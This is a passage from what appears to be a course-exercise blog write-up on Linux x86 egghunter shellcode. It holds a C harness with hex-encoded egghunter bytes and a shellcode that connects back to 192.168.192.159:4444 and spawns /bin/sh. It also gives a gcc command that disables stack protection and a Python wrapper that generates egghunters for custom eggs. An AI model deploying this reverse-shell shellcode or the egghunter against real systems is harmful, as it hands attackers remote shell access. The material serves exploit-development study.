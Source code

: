 skeleton code:
```
#include <stdio.h>

unsigned char egghunter[] = "\xbf\x77\x30\x30\x74\x31\xc9\x31\xd2\x66\x81\xca\xff\x0f\x42\x31\xc0\xb0\x21\x8d\x5a\x08\xcd\x80\x3c\xf2\x74\xed\x39\x3a\x75\xee\x39\x7a\x04\x75\xe9\x83\xc2\x08\xff\xe2";
unsigned char shellcode[] = "\x77\x30\x30\x74\x77\x30\x30\x74\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x66\xb8\x67\x01\xb3\x02\xb1\x01\xb2\x06\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x6a\x01\x31\xc9\x51\x68\xc0\xa8\xc0\x9f\x66\x68\x11\x5c\x66\x6a\x02\x89\xfb\x89\xe1\xb2\x16\xcd\x80\x31\xc0\x31\xdb\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf4\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

int main()
{
        int (*ret)() = (int(*)())egghunter;
        printf("Size of egghunter: %d bytes.\n", sizeof(egghunter)); 
        ret();
}
```

`gcc -fno-stack-protector -z execstack -m32 skeleton3.c -o egghunter3_exe`

And it works.. 

![egghunter 3 - final version](https://smarinovic.github.io/assets/img/slae_00017.png)

## Wrapper ## 

In order to make Egg Hunter configurable to various shell codes and eggs we can use following pyhon script which takes 4 letter egg and creates Egg Hunter code as well as egg to be added as prefix to shellcode:

```
import sys

egghunter = "\\xbfEGG\\x31\\xc9\\x31\\xd2\\x66\\x81\\xca\\xff\\x0f\\x42\\x31\\xc0\\xb0\\x21\\x8d\\x5a\\x08\\xcd\\x80\\x3c\\xf2\\x74\\xed\\x39\\x3a\\x75\\xee\\x39\\x7a\\x04\\x75\\xe9\\x83\\xc2\\x08\\xff\\xe2";
# to be replaced--^^^ with 4 bytes egg

if len(sys.argv) != 2:
   print 'Usage: wrapper.py <4 letter egg>'
   sys.exit(-1)

elif len(sys.argv[1]) != 4:
   print 'Egg should be 4 bytes long'

else:
   egg =sys.argv[1]
   egg_final = "\\x" + egg[0].encode("hex") + "\\x" + egg[1].encode("hex") + "\\x" + egg[2].encode("hex") + "\\x" + egg[3].encode("hex")
   egghunter = egghunter.replace("EGG", egg_final)
   print "Egghunter: " + egghunter
   print "Add: " + egg_final + egg_final + "  at beginning of shell code"
```
